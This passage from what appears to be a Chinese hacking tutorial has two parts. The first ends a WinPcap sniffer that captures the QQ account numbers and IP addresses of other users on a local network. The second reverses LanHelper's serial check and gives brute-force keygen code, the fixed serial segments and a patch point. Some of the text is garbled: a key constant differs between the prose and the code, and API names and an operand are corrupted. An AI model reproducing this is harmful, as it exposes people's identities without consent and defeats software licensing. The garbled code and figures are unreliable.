    adhandle = pcap_open_live(d->name, 65536, 1, 1000, errbuf);

    if (pcap_datalink(adhandle) != DLT_EN10MB)
    {
        fprintf(stderr, "\nThis program works only on Ethernet networks.\n");
        pcap_freealldevs(alldevs);
        return -1;
    }

    if (d->addresses != NULL)
        netmask = ((struct sockaddr_in *)(d->addresses->netmask))->sin_addr.S_un.S_addr;
    else
        netmask = 0xffffff;

    pcap_compile(adhandle, &fcode, packet_filter, 1, netmask);
    pcap_setfilter(adhandle, &fcode);

    printf("\nlistening on %s...\n", d->description);
    pcap_freealldevs(alldevs);

    printf("本局域网运行QQ号：\r\n");
    pcap_loop(adhandle, 0, packet_handler, NULL);

    return 0;
}
```

# 寂寞梧桐

主函数是按照我们前面的开发流程来编写的，这个只要明白了Winpcap函数的使用就可以明白了，代码中的函数在前面有过单独的解释，这里就不另外解释了。整个代码中比较关键的是协议解析的回调函数，代码如下：

```c
void packet_handler(u_char *param, const struct pcap_pkthdr *header, const u_char *pkt_data)
{
    ip_header *ih;
    udp_header *uh;
    u_int ip_len;
    u_short sport, dport;
    PBYTE pByte = NULL;

    // 获得IP协议头
    ih = (ip_header *)(pkt_data + 14);

    // 获得IP协议头的大小
    ip_len = (ih->ver_ihl & 0xf) * 4;

    // 判断是否为UDP协议
    if (ih->proto == UDP_SIGN)
    {
        // 获得UDP协议头
        uh = (udp_header *)((u_char*)ih + ip_len);

        // 获得源端口和目的端口
        sport = ntohs(uh->sport);
        dport = ntohs(uh->dport);

        // 我们这里采用源端口来判断是否是与QQ服务器的通信
        if (sport != QQ_SER_PORT)
        {
            return;
        }

        // 得到UDP协议头后的数据
        pByte = (PBYTE)ih + ip_len + sizeof(udp_header);

        // 判断是否为QQ协议头
        if (*pByte == QQ_SIGN)
        {
            // 获取QQ号
            DWORD dwQQ = *(int *)(pByte + QQ_NUM_OFFSET);

            // 转换字节序
            dwQQ = ntohl(dwQQ);
            printf("QQ = %u, %d.%d.%d.%d:%d => %d.%d.%d.%d:%d\r\n",
                dwQQ,
                ih->saddr[0], ih->saddr[1], ih->saddr[2], ih->saddr[3],
                sport,
                ih->daddr[0], ih->daddr[1], ih->daddr[2], ih->daddr[3],
                dport);
        }
    }
}
```

整个协议解析的回调函数是按照我们前面的原理篇的内容来进行编写的，而且代码中有充分的注释，理解起来也并不困难了。程序运行如图8所示的运行情况。


# 总结

我们本文主要介绍了如何通过Winpcap函数来获得本地运行QQ的号码，我们了解了Winpcap的强大并学习了Winpcap的函数，而且通过获取QQ号码的例子从思路转变成了代码。

## LanHelper算法分析与注册机的编写

各位，新年快乐！

今天给大家带来的是LanHelper（局域网助手）的算法分析和注册机的编写。想必这个软件大家都用过，都干过不少坏事吧，嘿嘿~~！但是这个软件有30天的试用期，超过时间就会提示注册。网上关于这个程序的破解方法有很多，但大多数是爆破的，很少涉及到算法分析的，今天就让我们来分析一下这个程序的算法。

LanHelper这个软件的算法有以下三个特点：1. 注册码分段验证；2. 采用了大量的浮点计算和数学运算；3. 使用SEH异常处理来代替关键跳转，更加隐蔽。

## 1. 定位关键代码

拿到程序，第一件要做的事是什么？当然是查壳喽。把程序载入Peid，见图片1。从Peid上我们知道，程序是Borland Delphi 6.0 - 7.0写的。打开程序，提示“您的30天试用期已到期”。点击“输入注册号码”，在编辑框内输入试验码“hzy-cy”，“123456789”，注册，弹出错误提示，见图片2。把程序载入OD，字符串搜索“您输入的注册码有误”，很遗憾的是OD并没有找到这个字符串。但是别灰心，这个程序是Borland Delphi 6.0 - 7.0写的。我们把它载入DeDe，等待程序转储分析完毕，点击DeDe中的窗体选项，在模块名中找到TForm_Reg，见图片3。右边显示出了窗口的信息，我们可以看到TButton有很多个，经过一些尝试，我们准确定位出关键代码004DCB40，在OD上下好CC断点，开始注册。


## 2. 算法分析与注册机的编写

输入试验码，点击确定，程序成功断下来，这说明我们定位的关键代码是正确的。很多程序都会在验证注册码时核实用户名和注册码是否为空，当然这个程序也不例外。0047E1C8这个Call是用来取用户名和注册码的，004097C4是用来判断用户名和注册码是否为空的。如果不为空，则进入真正的算法Call 004DF3B4中，这里面才是对我们有真正价值的地方。


```asm
0040CB6D  E8 56...      call 0047E1C8    ; 获取用户名
0040CB72  8B45 B8       mov eax, dword ptr [ebp-48]
0040CB75  8D55 BC       lea edx, dword ptr [ebp-44]
0040CB78  E8 47...      call 004097C4
0040CB7D  837D BC 00    cmp dword ptr [ebp-44], 0
0040CB81  74 22         je  short ...     ; 判断用户名是否为空
```

```asm
ptr [ebp-50]
004DCB86  8B45 FC          mov eax, dword ptr [431030]
ptr [ebp-4]
004DCB89  8B80 04030000    mov eax, dword ptr [eax+304]
004DCB8F  E8 3416FAFF      call 0047E1C8

; 取注册码
004DCB94  8B45 B0          mov eax, dword ptr [ebp-50]
004DCB97  8D55 B4          lea edx, dword ptr [ebp-4C]
004DCB9A  E8 25CCF2FF      call 004097C4
004DCB9F  837D B4 00       cmp dword ptr [ebp-4C], 0
004DCBA3  75 44            jnz short 004DCBE9
; 判断注册码是否为空
```

```asm
00430FE1  DB2D 30104300    fld tbyte ...
00430FE7  DED9             fcompp
00430FE9  DFE0             fstsw ax
00430FEB  9E               sahf
00430FEC  72 1E            jb short 0043100C
...
00430FEE  66:8B45 1C       mov ax, word ptr [ebp+1C]
00430FF2  50               push eax
00430FF3  FF75 18          push dword ptr [ebp+18]
00430FF6  FF75 14          push dword ptr [ebp+14]
00430FF9  DB6D 08          fld tbyte ptr [ebp+8]
00430FFC  E8 4B1CFDFF      call 00402C40
00431001  E8 2AFFFFFF      call 00430F30
00431006  DB7D F0          fstp tbyte ptr [ebp-10]
00431009  9B               wait
0043100A  EB 17            jmp short 00431023
...
0043100C  DB6D 14          fld tbyte ptr [ebp+14]
0043100F  D9ED             fldln2
00431011  D9C9             fxch st(1)
00431013  D9F1             fyl2x
00431015  DB6D 08          fld tbyte ptr [ebp+8]
00431018  DEC9             fmulp st(1), st
0043101A  E8 D51BFDFF      call 00402BF4
0043101F  DB7D F0          fstp tbyte ptr [ebp-10]
00431022  9B               wait
00431023  DB6D F0          fld tbyte ptr [ebp-10]
00431026  8BE5             mov esp, ebp
```

因为这个程序大量运用了00430F74这个Call进行验证，所以分析算法之前，我们先来分析一下这个Call。为了方便，我们把这个Call记为Call1。Call1有两个参数，参数1为浮点数，参数2由`fstp tbyte ptr [esp]`装入。通过下面代码我们可知，Call1里有两个验证流程，分别记为流程1、流程2，并通过参数1的小数部分是否为0来判断流程。小数部分不为0则跳到流程1执行，为0则跳到流程2。

```asm
00430F74  55               push ebp
...
; 省略代码为检测参数2是否为0
00430FC7  EB 5A            jmp short 00431023

00430FC9  DB6D 08          fld tbyte ptr [ebp+8]   ; 装入参数1到st(0)
00430FCC  E8 4B1CFDFF      call 00402C1C          ; 判断参数1的小数部分是否为0
00430FD1  D81D 2C104300    fcomp dword ptr [43102C]
00430FD7  DFE0             fstsw ax
00430FD9  9E               sahf
00430FDA  75 30            jnz short 0043100C     ; 通过参数1判断流程

00430FDC  DB6D 08          fld tbyte ptr [ebp+8]   ; 流程2
00430FDF  D9E1             fabs
```

这里我们先分析流程1，进入流程1处的 004028F4 中。可见 Call1 运用了大量的浮点运算和数学运算，是不是看得我们眼花呢？为了大家能更加直观地理解这个 Call1 的作用，我把它翻译成了 C++ 代码（不包括流程2），见图4。相信这样大家就能看得懂了吧。因为决定流程2的参数是固定的，所以我们在遇见时再做具体分析。

```cpp
double CHyDlg::Call1(double x, double y)
{
    // x为参数1，y为参数2，dTemp1为运算的结果
    double dTemp1, dTemp2;
    dTemp1=log(y)/log(2)*loge2*x*log2e;
    dTemp2=int(dTemp1);
    dTemp1=dTemp1-dTemp2;
    dTemp1=pow(2,dTemp1);
    dTemp1=pow(2,dTemp2)*dTemp1;
    return dTemp1;
}
```

图4

好了，准备工作做完了，现在该进入正题了。

为了更好地说明这个软件的验证过程，我将对注册码进行分段分析。

## 第一段（前6位）

由下列代码可知，注册码的前6位是固定不变的。程序依次对假码的前6位进行验证，只要有一位与注册码的前6位不符，dl 就会为 0，导致程序验证失败。我们在数据窗口中按下 Ctrl+G，输入 005B2C14，见图5。可知注册码的前6位是 LH4A8N。我们重启程序，输入 LH4A8N123456，继续分析。

图5

## 第二段（单独判断第9位）

通过下面代码可知，程序通过两个 Call1 来验证注册码的第9位。第一个 Call1 的参数1为假码的第9位，参数2为 0.0408163265306122432。因为参数2的小数部分不为0，所以跳到流程1处执行，计算后的结果记为 A9。第二个 Call1 的参数1为 A9，参数2为 2.00001000000000000000，小数部分不为0，跳向流程1，计算后的结果记为 A90。然后 A90 与 tbyte ptr [4DF914]（也就是 6.8999999999999989760e-07）比较，如果小于就跳向失败。知道了这个，我们就可以用穷举法来找出第9位。我们通过查 ASCII 码可知，第9位的取值范围是 33 到 126。我们用一个 while 循环来对这个范围内的值依次进行验证，如果满足条件，则跳出提示。具体代码见图6。运行这段代码，弹出提示，见图7。可见第9位为定值“#”，将假码改为 LH4A8N12#456，重启程序。

```asm
004DF510 8B45 F8 mov eax ...
004DF513 8A58 08 mov bl, byte ptr [eax+8]
004DF516 33C0 xor eax, eax
004DF518 8AC3 mov al, bl
...
004DF536 E8 391AF5FF call 00430F74
...
004DF548 D9E1 fabs
...
004DF551 68 00400000 push 4000
```

```asm
004DF556 68 F1290080 push 800029F1
004DF55B 68 D2C6146B push 6B14C6D2
...
004DF560 E8 0F1AF5FF call 00430F74
004DF565 DB2D 14F94D00 fld tbyte ptr [4DF914]
...
004DF56D DFE0 fstsw ax
004DF56F 9E sahf
004DF570 0F82 26030000 jb 004DF89C
（小于就跳向失败）
```

```c
// 第九位
Num9=33;
while (Num9<127)
{
    temp=Call1(Para[2],Num9);
    temp=fabs(Para1-temp);
    sd=Call1(Para[3],temp);
    if (Para2>=sd)
    {
        p=(char)Num9;
        temp9+=p;
        RFxMessageBox(temp9);
    }
    Num9++;
}
// 第九位
```

## 第三段（判断第7、8、10位）

程序通过4个 Call1 来验证第7、8、10位。这四个 Call1 的参数1的小数部分都不为0，都跳到流程1执行。前三个 Call1 的参数2分别为第7、8、10位的 ASCII 码，计算后的结果分别为 A7、A8、A10，第四个 Call1 的参数2为 A7+A8+A10，计算后的结果记为 A101。A101 减去 dword ptr [4DF920]（也就是 685.5000），结果取绝对值，再与 tbyte ptr [4DF924]（也就是 0.8865299999999998976）比较，小于就跳向失败。和第二段一样，我们可以用4个 for 循环，对第7、8、10位进行验证。具体代码见图8，运行这段代码，弹出提示，见图9。我们把假码改成 LH4A8N'w#~1234567890，重启程序。

```asm
004DF4AC  8B45 F8      mov eax, dword ptr [ebp-8]
004DF4AF  8A58 06      mov bl, byte ptr [eax+6]
004DF4B2  33C0         xor eax, eax
004DF4B4  8AC3         mov al, bl
004DF4B6  8945 A0      mov dword ptr [ebp-60], eax
004DF4B9  DB45 A0      fild dword ptr [ebp-60]
004DF4BC  83C4 F4      add esp, -0C
004DF4BF  DB3C24       fstp tbyte ptr [esp]
004DF4C2  9B           wait
...
004DF4DD  9B           wait
004DF4DE  8B45 F8      mov eax, dword ptr [ebp-8]
004DF4E1  8A58 07      mov bl, byte ptr [eax+7]
004DF4E4  33C0         xor eax, eax
004DF4E6  8AC3         mov al, bl
004DF4E8  8945 A0      mov dword ptr [ebp-60], eax
004DF4EB  DB45 A0      fild dword ptr [ebp-60]
004DF4EE  83C4 F4      add esp, -0C
004DF4F1  DB3C24       fstp tbyte ptr [esp]
```

```asm
ptr [esp]
004DF4F4  9B           wait
004DF4F5  68 FD3E0000  push 3FFD...
004DF4FA  68 2F4CA6AA  push AAA64C2F
004DF4FF  68 234A7B88  push 837B4A23
004DF504  E8 651AF5FF  call 00430F74
004DF509  DC45 E0      fadd qword ptr [ebp-20]
004DF50C  DD5D E0      fstp qword ptr [ebp-20]
004DF50F  9B           wait
...
004DF579  8A58 09      mov bl, byte ptr [eax+9]
004DF57C  33C0         xor eax, eax
004DF57E  8AC3         mov al, bl
004DF580  8945 A0      mov dword ptr [ebp-60], eax
004DF583  DB45 A0      fild dword ptr [ebp-60]
004DF586  83C4 F4      add esp, -0C
004DF589  DB3C24       fstp tbyte ptr [esp]
004DF58C  9B           wait
...
004DF5A8  DD45 E0      fld qword ptr [ebp-20]
004DF5AB  83C4 F4      add esp, -0C
004DF5AE  DB3C24       fstp tbyte ptr [esp]
```

```asm
ptr [esp]
[ebp-20]
004DF5B1  9B              wait
004DF5B2  68 00000000     push 4000
004DF5B7  68 133BB1F3     push 93B?3B?3
...
004DF5E0  0F82 B6020000   jb 004DF89C
```

图9

## 第四段（判断第11、12、13、14位）（SEH异常验证）

程序在对第13、14位进行 Call1 运算时，参数1分别为 6.000000 和 2.000000，所以进入了流程2，我们写注册机时就不能利用先前写好的 Call1。

```asm
004DF644  8945 A0         mov dword ptr [ebp-60],eax
004DF647  DB45 A0         fild dword ptr [ebp-60]
004DF64A  83C4 F4         add esp,-0C
...
004DF66C  DC45 E0         fadd qword ptr [ebp-20]
004DF66F  DD5D E0         fstp qword ptr [ebp-20]
```

```c
for (Num7=33; Num7<127; Num7++) {
    sd1=Call1(Para[0],Num7);
    ebp20-=sd1;
    for (Num8=33; Num8<127; Num8++) {
        sd2=Call1(Para[1],Num8);
        ebp20-=sd2;
        for (Num10=33; Num10<127; Num10++) {
            sd3=Call1(Para[4],Num10);
            ebp20-=sd3;
            sd4=Call1(Para[5],ebp20);
            temp=fabs(sd4-Para3);
            if (Para4>temp) {
                ...
            }
            ebp20-=sd3;
        }
        ebp20-=sd2;
    }
    ebp20-=sd1;
}
```

图8

```asm
; 保存在 ebp-20 中
004DF672    9B                wait
004DF673    8B45 F8           mov eax, dword ptr [ebp-8]
004DF676    8A58 0B           mov bl, byte ptr [eax+B]
004DF679    33C0              xor eax, eax
004DF67B    8AC3              mov al, bl
004DF67D    83C0 0B           add eax, 0B
004DF680    71 05             jno short 004DF687
004DF682    E8 7544F2FF       call 00403AFC
004DF687    8945 A0           mov dword ptr [ebp-60], eax
004DF68A    DB45 A0           fild dword ptr [ebp-60]
004DF68D    D9FA              fsqrt
004DF68F    E8 B835F2FF       call 00402C4C
004DF694    8BF0              mov esi, eax
004DF696    C745 D8 01000000  mov dword ptr [ebp-28], 1
004DF69D    C745 DC 00000000  mov dword ptr [ebp-24], 0
004DF6A4    83FE 01           cmp esi, 1
004DF6A7    76 20             jbe short 004DF6D6
004DF6A9    8BC6              mov eax, esi

; 循环开始（算阶乘）
004DF6AB    33D2              xor edx, edx
004DF6AD    52                push edx
004DF6AE    50                push eax
004DF6AF    8B45 D8           mov eax, dword ptr [ebp-28]
004DF6B2    8B55 DC           mov edx, dword ptr [ebp-24]
004DF6B5    E8 2A65F2FF       call 00405BE4
004DF6BA    71 05             jno short 004DF6C1
004DF6BC    E8 3B44F2FF       call 00403AFC
004DF6C1    8945 D8           mov dword ptr [ebp-28], eax
004DF6C4    8955 DC           mov dword ptr [ebp-24], edx
004DF6C7    83EE 01           sub esi, 1
004DF6CA    73 05             jnb short 004DF6D1
004DF6CC    E8 2B44F2FF       call 00403AFC
004DF6D1    83FE 01           cmp esi, 1
004DF6D4    77 D3             ja short 004DF6A9

; 循环结束
004DF6D6    FF75 DC           push dword ptr [ebp-24]
004DF6D9    FF75 D8           push dword ptr [ebp-28]
004DF6DC    33C0              xor eax, eax
004DF6DE    8AC3              mov al, bl
004DF6E0    F7E8              imul eax
004DF6E2    F7E8              imul eax
004DF6E4    0FBFC0            movsx eax, ax
004DF6E7    33D2              xor edx, edx
004DF6E9    8AD3              mov dl, bl
004DF6EB    F7EA              imul edx
004DF6ED    71 05             jno short 004DF6F4
004DF6EF    E8 0844F2FF       call 00403AFC
004DF6F4    99                cdq
004DF6F5    E8 EA64F2FF       call 00405BE4
004DF6FA    71 05             jno short 004DF701
004DF6FC    E8 FB43F2FF       call 00403AFC
004DF701    8945 94           mov dword ptr [ebp-6C], eax
004DF704    8955 98           mov dword ptr [ebp-68], edx
004DF707    DF6D 94           fild qword ptr [ebp-6C]

; 装入第十二位运算结果
```

```asm
004DF70A  DC45 E0        fadd    qword ptr [ebp-20]    与 [ebp-20] 相加
004DF70D  DD5D E0        fstp    qword ptr [ebp-20]
004DF710  9B             wait
004DF711  8B45 F8        mov     eax, dword ptr [ebp-8]    eax为伪码地址
004DF714  8A58 0C        mov     bl, byte ptr [eax+C]      第十二位
004DF717  33C0           xor     eax, eax
004DF719  8AC3           mov     al, bl
004DF71B  8945 A0        mov     dword ptr [ebp-60], eax
004DF71E  DB45 A0        fild    dword ptr [ebp-60]
004DF721  83C4 F4        add     esp, -0C
004DF724  DB3C24         fstp    tbyte ptr [esp]            参数2为伪码第十二位
004DF727  9B             wait
004DF728  68 01400000    push    4001
004DF72D  68 000000C0    push    C0000000
004DF732  6A 00          push    0                         参数3（此时进入流程2）
004DF734  E8 3B18F5FF    call    00430F74
004DF739  33C0           xor     eax, eax
004DF73B  8AC3           mov     al, bl
004DF73D  8945 A0        mov     dword ptr [ebp-60], eax
004DF740  DB45 A0        fild    dword ptr [ebp-60]
004DF743  DEC9           fmulp   st(1)
004DF745  DC45 E0        fadd    qword ptr [ebp-20]
004DF748  DD5D E0        fstp    qword ptr [ebp-20]
004DF74B  9B             wait
004DF74C  8B45 F8        mov     eax, dword ptr [ebp-8]
004DF74F  8A58 0D        mov     bl, byte ptr [eax+D]      第十四位
004DF752  8BC3           mov     eax, ebx
004DF754  25 FF000000    and     eax, 0FF
004DF759  33D2           xor     edx, edx
004DF75B  8945 D8        mov     dword ptr [ebp-28], eax
```

```asm
004DF75E  8955 DC        mov     dword ptr [ebp-24], edx
004DF761  DF6D D8        fild    qword ptr [ebp-28]
004DF764  83C4 F4        add     esp, -0C
004DF767  DB3C24         fstp    tbyte ptr [esp]            参数2为伪码第十四位
004DF76A  9B             wait
004DF76B  68 00400000    push    4000
004DF770  68 00000080    push    80000000
004DF775  6A 00          push    0                         参数3（进入流程2）
004DF777  E8 F817F5FF    call    00430F74
004DF77C  8B45 F8        mov     eax, dword ptr [ebp-8]
004DF77F  0FB640 0A      movzx   eax, byte ptr [eax+A]      第十一位
004DF783  F7E8           imul    eax
004DF785  66 8945 9C     mov     word ptr [ebp-64], ax
004DF789  0FBF45 9C      fild    word ptr [ebp-64]
004DF78C  DEC9           fmulp   st(1)                      相乘
004DF78E  8B45 F8        mov     eax, dword ptr [ebp-8]
004DF791  8A40 0B        mov     al, byte ptr [eax+B]      第十二位
004DF794  25 FF000000    and     eax, 0FF
004DF799  8945 A0        mov     dword ptr [ebp-60], eax
004DF79C  DB45 A0        fild    dword ptr [ebp-60]
004DF79F  DEC9           fmulp   st(1)                      相乘
004DF7A1  DC45 E0        fadd    qword ptr [ebp-20]         与 [ebp-20] 相加
004DF7A4  DD5D E0        fstp    qword ptr [ebp-20]
004DF7A7  9B             wait
004DF7A8  33C0           xor     eax, eax
004DF7AA  55             push    ebp
004DF7AB  68 FEF74D00    push    004DF7FE
004DF7B0  64:FF30        push    dword ptr fs:[eax]
004DF7B3  64:8920        mov     dword ptr fs:[eax], esp
```

```asm
...
004DF7B6    DD45 E0           fld     qword ptr [ebp-20]
; 压入第十一位到第十四位的运算结果
004DF7B9    E8 8E34F2FF       call    00402C4C
004DF7BE    2D 8063E7EA       sub     eax, EAE76380
004DF7C3    81DA EE000000     sbb     edx, 0EE
004DF7C9    71 05             jno     short 004DF7D0
...
004DF7D0    8945 94           mov     dword ptr [ebp-6C], eax
004DF7D3    8955 98           mov     dword ptr [ebp-68], edx
004DF7D6    DF6D 94           fild    qword ptr [ebp-6C]
004DF7D9    DB7D 88           fstp    tbyte ptr [ebp-78]
...
; 通过GetLocalTime计算出一个随机数，无用
004DF7E2    DB6D 88           fld     tbyte ptr [ebp-78]
004DF7E5    DEF9              fdivp   st(1), st
004DF7E7    DDD8              fstp    st
; st为0，触发异常
004DF7E9    33C0              xor     eax, eax
...
004DF7EE    64:8910           mov     dword ptr fs:[eax], edx
004DF7F1    E9 A6000000       jmp     004DF89C
; 如果没有触发异常，这里必跳
```

不过，别担心，流程2要比流程1简单。

```asm
00430FDC    DB6D 08           fld     tbyte ptr [ebp+8]
; 装入参数1到st(0)(流程2)
00430FDF    D9E1              fabs
; 取绝对值
00430FE1    DB2D 30104300     fld     tbyte ptr [431030]
...
00430FE7    DED9              fcompp
; 比较
00430FE9    DFE0              fstsw   ax
00430FEB    9E                sahf
00430FEC    72 1E             jb      short 0043100C
; 小于就跳（这里死都不跳==!）
00430FEE    66:8B45 1C        mov     ax, word ptr [ebp+1C]
00430FF2    50                push    eax
00430FF3    FF75 18           push    dword ptr [ebp+18]
00430FF6    FF75 14           push    dword ptr [ebp+14]
00430FF9    DB6D 08           fld     tbyte ptr [ebp+8]
; 装入参数1到st(0)
00430FFC    E8 4B1CFDFF       call    00402C4C
; 将参数1取整后装入eax
00431001    E8 2AFEEFFF       call    00430F30
; 并入
00431006    DB7D F0           fstp    tbyte ptr [ebp-10]
00431009    9B                wait
0043100A    EB 17             jmp     short 00431023
...
```

由上面代码可知，流程2的关键处在于 `call 00430F30` 中。我们进入这个 Call，见代码9。代码9的关键在于中间那个循环。`shr` 为逻辑右移，`shr eax,1` 的意思是将 eax 向右移 1 位，高位补0，低位进入 CF，当 CF=0 时，`jnb` 跳转实现。`shr eax,1` 也可以理解为将 eax 除以2，eax 为商，edx 为余数。当 eax 不为0时，ZF=0，`jnz` 跳转实现。

```asm
00430F30    55                push    ebp
00430F31    8BEC              mov     ebp, esp
00430F33    89C1              mov     ecx, eax
00430F35    99                cdq
; 扩展成四字节
00430F36    D9E8              fld1
; 装入1到st(0)
00430F38    31D0              xor     eax, edx
00430F3A    sub     eax, edx
00430F3C    je      short ...
00430F3E    fld     tbyte ptr [ebp+8]   ; 装入参数2
00430F41    jmp     short ...
00430F43    fmul    st, st              ; 相乘
00430F45    shr     eax, 1              ; eax右移1位
00430F47    jnb     short ...           ; 不小于就跳
00430F49    fmul    st(1), st           ; st(1)*st(0)
00430F4B    jnz     short ...           ; 不等就跳
00430F4D    fstp    st
00430F4F    cmp     ecx, 0
00430F52    jge     short ...
00430F54    fld1
00430F56    fdivrp  st(1), st
00430F58    wait
00430F59    pop     ebp
00430F5A    retn    0C
```

```c
sd4=Num14*Num14;
...
```

图11

| 地址 | 值 | 说明 |
|---|---|---|
| 0012EED4 | 0012EEED | 指向一个SEH异常的旧结构 |
| 0012EED8 | 004DF7FE | SEH处理程序 |

图12

```c
LONG64 eax1,eax2;
signed short ax;
signed long eax3;
double as;
for (Num11=33;Num11<127;Num11++)
{
  eax=Num11*Num11;
  ax=eax*eax;
  as=double(ax);
  sd1=as*Call2(9,Num11);  // Call2计算Num11的9次方
  ebp20+=sd1;
  for (Num12=33;Num12<127;Num12++)
  {
    eax=Num12+0x80;
    eax=(int)sqrt(eax);
    temp=Call3(eax);      // Call3计算阶乘
    eax=Num12*Num12;
    eax=eax*eax;
    ax=eax;
    eax=0;
    eax3=ax;
    eax3=eax3*Num12;
    eax2=eax3*temp;
    ebp2b+=eax2;
    for (Num13=33;Num13<127;Num13++)
    {
      sd3=Num13*Num13;
      sd3=sd3*sd3;
      temp=Num13*Num13;
      sd3=sd3*temp;
    }
  }
}
```

图13

是不是有点晕啊！不用担心，因为这个循环的次数是根据参数1来决定的，参数1只有两个值，分别是6和2。因此我们没有必要还原这个循环，我们只需对这两个值分别进行特定的计算就行。当参数1为6时，C++代码见图片10。当参数1为2时，C++代码见图片11。Num13、Num14分别代表假码第13、14位的ASCII码，sd3、sd4分别代表最终的计算结果。是不是很简单啊！

分析完流程2，我们继续看代码，发现程序依旧还是利用 Call1 和四则运算分别对第11、12、13、14位的假码进行运算，然后相加得出一个具体的值（记为A14）来判断是否通过验证。只不过这种验证更加隐蔽，它运用了SEH异常处理，我们不能像第二段或第三段直接找出这个值要满足的范围。我们现在从004DF7AA这里看起。程序在004DF7B3处安装了SEH异常，此时我们看堆栈窗口，见图片12。

```c
sd3=Num13*Num13;
sd3=sd3*sd3;
temp=Num13*Num13;
sd3=sd3*temp;
```

图10

在代码窗口按下 CTRL+G，输入 004DF7FE，下好CC断点，继续我们的分析。在004DF7B3处，程序将A14装入st(0)中，而00402C4C这个Call的作用就是把A14取整，然后转换成16进制。因为A14之前是64位的，也就是double类型。一个寄存器是32位的，所以这里用edx和eax一起保存。然后eax减去EAE76380，edx减去0EE，然后再将eax、edx还原成一个double数（A140）。然后通过Call 0040C1E8，利用GetLocalTime计算出一个随机数。然后用这个随机数来除以A140。

如果我们输入的不是正确的注册码，程序正常运行下去，并跳到004DF89C处，将全局注册标志清0。所以在这里我们必须触发这个异常，才能进行下一步的验证。那么这个异常是什么呢？我们仔细看下代码，发现004DF7E5的代码为 `fdivp st(1),st`。我们自然联想到了除0异常，将st(0)的值赋为0，发现程序出现异常，并跳到004DF7FE处执行，也就是我们之前下的CC断点处。限于篇幅，SEH的处理过程我就不多说了，黑X论坛上有说明的帖子，大家可以上去看看，不懂的话，也可以在论坛联系我。

我们在004DF803处下好CC断点，然后按下F9，发现出现异常后的程序成功断了下来，并进行下一步验证。好了，我们现在返回去看，将004DF7BE和004DF7C3处的eax和edx组合起来就是 `0x0EEEAE76380`，转换成十进制就是 `1026143249280`。也就是说，当最终的计算结果A14为 `1026143249280` 时，则通过验证。分析到这里是不是有点累了！没关系，加油，马上就要到达终点了。

过了验证过程，我们就可以用C++来算出这段注册码。见图片13和图片14。代码中的 Call2(9,Num11) 是用来计算 Num11 的9次方的，Call3 是用来计算阶乘的。运行这段代码，跳出提示，见图片15。可知第11-14位分别为 `J&4T`，且是定值。我们把假码改成 `LH4A8N'w#~J&4T12345`，重启程序，进行最后一处验证。

## 第五段（第15，16，17，18，19位的验证）

程序先累加第15位到18位的ASCII码，累加之和记为A19。然后用A19除以 `0x1A`，并取其余数。结果再加上 `0x41`，并与第十九位比较。如果相等，则在004DF898处注册全局标志。如果我们要爆破的话，可以在这里改。写注册机时，依旧是用5个for循环进行穷举，具体代码见图片16。运行这段代码，跳出提示，见图17。

```c
sd3=sd3*Num13;
ebp20+=sd3;
for (Num14=33;Num14<127;Num14++)
{
    sd4=Num14*Num14;
    eax1=Num11*Num11;
    eax1=eax1*sd4*Num12;
    ebp20+=eax1;
    if (INT64(ebp20)-1926143249280==0)
    {
        p=char(Num11); temp11+=p;
        p=char(Num12); temp12+=p;
        p=char(Num13); temp13+=p;
        p=char(Num14); temp14+=p;
        temp14=temp11+"\n"+temp12+"\n"+temp13+"\n"+temp14;
        AfxMessageBox(temp14);
    }
    ebp20-=eax1;
}
ebp20-=sd3;
```


```c
for (Num19=33;Num19<127;Num19++)
{
  for (Num15=33;Num15<127;Num15++)
  {
    Num+=Num15;
    for (Num16=33;Num16<127;Num16++)
    {
      Num+=Num16;
      for (Num17=33;Num17<127;Num17++)
      {
        Num+=Num17;
        for (Num18=33;Num18<127;Num18++)
        {
          Num+=Num18;
          Num0=Num % 0x1A;
          Num0+=0x41;
          if (Num0==Num19)
          {
            p=(char)Num15; temp15+=p;
            p=(char)Num16; temp16+=p;
            p=(char)Num17; temp17+=p;
            p=(char)Num18; temp18+=p;
            p=(char)Num19; temp19+=p;
            temp0=temp15+"\n"+temp16+"\n"+temp17+"\n"+temp18+"\n"+temp19+"\n";
            AfxMessage(temp0);
          }
          Num-=Num18;
        }
        Num-=Num17;
      }
      Num-=Num16;
    }
    Num-=Num15;
  }
}
```


```asm
004DF803  E8 FC4BF2FF   call 00404404
004DF808  A1 BC355B00   mov eax,dword ptr [5B35BC]
004DF80D  8B00          mov eax,dword ptr [eax]
004DF80F  83C0 04       add eax,4
004DF812  50            push eax
004DF813  B9 02000000   mov ecx,2
004DF818  BA 14000000   mov edx,14
004DF81D  8B45 F8       mov eax,dword ptr [ebp-8]
004DF820  E8 E756F2FF   call 00404F0C
004DF825  8B45 F8       mov eax,dword ptr [ebp-8]
004DF828  8A40 12       mov al,byte ptr [eax+12]
004DF82B  25 FF000000   and eax,0FF
004DF830  33D2          xor edx,edx
004DF832  8945 B0       mov dword ptr [ebp-50],eax
004DF835  8955 B4       mov dword ptr [ebp-4C],edx
004DF838  6A 00         push 0
004DF83A  6A 1A         push 1A
004DF83C  8B45 D0       mov eax,dword ptr [ebp-30]
004DF83F  8B55 D4       mov edx,dword ptr [ebp-2C]
004DF842  0345 C8       add eax,dword ptr [ebp-38]
004DF845  1355 CC       adc edx,dword ptr [ebp-34]
004DF848  71 05         jno short ...
```

### 验证流程

```asm
004DF84A    E8 AD42F2FF    call    00403AFC
004DF84F >  0345 C0        add     eax, dword ptr [ebp-40] ; 再加第十七位
004DF852    1355 C4        adc     edx, dword ptr [ebp-3C]
004DF855    71 05          jno     short 004DF85C
004DF857    E8 A042F2FF    call    00403AFC
004DF85C >  0345 B8        add     eax, dword ptr [ebp-48] ; 再加第十八位
004DF85F    1355 BC        adc     edx, dword ptr [ebp-44]
004DF862    71 05          jno     short 004DF869
004DF864    E8 9342F2FF    call    00403AFC
004DF869 >  E8 CA64F2FF    call    00405038
; 第15至18位的和除以1A，并取余数
004DF86E    71 05          jno     short 004DF875
004DF870    E8 8742F2FF    call    00403AFC
004DF875 >  83C0 41        add     eax, 41 ; 加上0x41
004DF878    83D2 00        adc     edx, 0
004DF87B    71 05          jno     short 004DF882
004DF87D    E8 7A42F2FF    call    00403AFC
004DF882 >  8945 A8        mov     dword ptr [ebp-58], eax ; 计算后的结果保存
004DF885    8955 AC        mov     dword ptr [ebp-54], edx
004DF888    8B45 B0        mov     eax, dword ptr [ebp-50] ; eax为第十九位
004DF88B    8B55 B4        mov     edx, dword ptr [ebp-4C]
004DF88E    3B55 AC        cmp     edx, dword ptr [ebp-54] ; 必为0
004DF891    75 03          jnz     short 004DF896
